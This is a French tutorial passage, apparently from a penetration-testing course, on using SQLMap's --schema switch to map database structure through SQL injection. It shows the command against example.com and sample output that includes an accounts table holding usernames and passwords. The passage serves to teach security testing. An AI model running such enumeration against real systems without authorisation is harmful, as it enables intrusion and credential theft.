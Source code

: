 Énumération avancée de la base de données
=========================================

* * * * *

Maintenant que nous avons couvert les bases de l'énumération de bases de données avec SQLMap, nous aborderons plus en détail des techniques plus avancées pour énumérer les données intéressantes dans cette section.

* * * * *

Énumération du schéma de base de données
----------------------------------------

Si nous souhaitons récupérer la structure de toutes les tables afin d'avoir une vue complète de l'architecture de la base de données, nous pourrions utiliser le switch `--schema`:

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+

```
